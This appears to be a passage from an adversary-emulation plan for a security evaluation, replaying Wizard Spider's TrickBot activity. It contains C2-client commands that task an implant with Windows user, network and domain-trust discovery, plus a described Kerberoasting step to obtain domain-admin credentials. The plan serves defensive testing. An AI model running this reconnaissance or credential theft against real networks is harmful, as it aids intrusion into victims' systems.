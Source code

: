 
```bash
# TrickBot collects the users of the system.[1][6]

./evalsC2client.py --set-task TrickBot-Implant "net user >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant  "net user /domain >> discovery.txt"
```

```bash
# TrickBot obtains the IP address, location, and other relevant network information from the victim’s machine.[1][6][7]

./evalsC2client.py --set-task TrickBot-Implant "ipconfig /all"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "netstat -tan"
```

```bash
# Trickbot gathers domain specfic/client specfic information
./evalsC2client.py --set-task TrickBot-Implant "net config workstation >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "nltest /domain_trusts /all_trusts >> discovery.txt"
```

```bash
# TrickBot can identify the groups the user on a compromised host belongs to.[7]

./evalsC2client.py --set-task TrickBot-Implant "whoami /groups >> discovery.txt"
```

### :microscope: Cited Intelligence

* https://www.securityartwork.es/wp-content/uploads/2017/07/Trickbot-report-S2-Grupo.pdf
* https://www.fidelissecurity.com/threatgeek/2016/10/trickbot-we-missed-you-dyre
* https://blog.trendmicro.com/trendlabs-security-intelligence/trickbot-shows-off-new-trick-password-grabber-module/
* https://www.cybereason.com/blog/dropping-anchor-from-a-trickbot-infection-to-the-discovery-of-the-anchor-malware
* https://eclypsium.com/wp-content/uploads/2020/12/TrickBot-Now-Offers-TrickBoot-Persist-Brick-Profit.pdf

### Step 6 - Kerberoast the DC

:microphone: `Voice Track:`

In this step Wizard Spider performs Kerberoasting using a public tool, Rubeus.

Through Kerberoasting, Wizard Spider obtains encrypted credentials for the domain admin, vfleming.

Wizard Spider cracks the credentials offline for use in the next step. 

*Note: offline cracking isn't performed due to time constraints; its also not in scope for the evaluation, so we skip the behavior.*

---